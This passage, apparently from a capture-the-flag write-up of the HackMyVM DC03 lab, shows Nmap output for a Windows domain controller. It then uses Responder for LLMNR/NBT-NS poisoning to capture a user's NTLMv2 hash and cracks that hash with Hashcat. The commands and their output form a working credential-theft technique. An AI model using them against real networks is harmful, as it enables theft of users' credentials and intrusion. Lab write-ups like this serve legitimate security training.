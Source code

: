 ```bash
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:cd:9d:2f (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2024-10-19T17:51:53
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 9h57m38s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.99 seconds
```

The target runs Kerberos, LDAP, and SMB, we can deduce from this that the target is a Windows domain controller. We can see in the scan's result the domain i.e. `SOUPEDECODE.LOCAL` of the target and also the name of the domain controller `DC01`. We can add this information to our /etc/hosts file.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC03/Scans/Service]
└─$ echo "10.0.2.33\tSOUPEDECODE.LOCAL  DC01.SOUPEDECODE.LOCAL"  | sudo tee -a /etc/hosts
10.0.2.33       SOUPEDECODE.LOCAL  DC01.SOUPEDECODE.LOCAL
```

## Exploitation

Since we are on the same LAN as the domain controller we can perform LLMNR \| NBT-NS poisoning attack using the responder.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03/Scans/AD Enumeration]
└─$ sudo responder -I eth0
<SNIP>
[*] [MDNS] Poisoned answer sent to fe80::8946:76ef:7852:5ca2 for name FileServer.local
[SMB] NTLMv2-SSP Client   : fe80::8946:76ef:7852:5ca2
[SMB] NTLMv2-SSP Username : soupedecode\xkate578
[SMB] NTLMv2-SSP Hash     : xkate578::soupedecode:e64b0be3891aa287:E6181478C75D169CD446BC569D402ADF:01010000000000008048E2CA3522DB01DCD78269F140B76B0000000002000800550053005800500001001E00570049004E002D004C00470055003700410044004C003800<SNIP>0430041004C00070008008048E2CA3522DB01060004000200000008003000300000000000000000000000004000001BAAF5583C712D88226DBB9E785345304AB5EB5C2F75804BF8CA1B7B5C99FB370A0010000000000000000000000000000000000009001E0063006900660073002F00460069006C0065005300650072007600650072000000000000000000
```

After some minutes, we will see that the responder has captured the NTLMv2 hash of the xkate578 user. We can crack this hash using Hashcat.

```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03/Scans/AD Enumeration]
└─$ hashcat -a 0 -m 5600 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
<SNIP>
XKATE578::soupedecode:e64b0be3891aa287:e6181478c75d169cd446bc569d402adf:01010000000000008048e2ca3522db01dcd78269f140b76b0000000002000800550053005800500001001e00570049004e002d004c00470055003700410044004c00380<SNIP>00430041004c00070008008048e2ca3522db01060004000200000008003000300000000000000000000000004000001baaf5583c712d88226dbb9e785345304ab5eb5c2f75804bf8ca1b7b5c99fb370a0010000000000000000000000000000000000009001e0063006900660073002f00460069006c0065005300650072007600650072000000000000000000:<REDACTED>
                                                          
<SNIP>
Started: Sat Oct 19 16:49:34 2024
```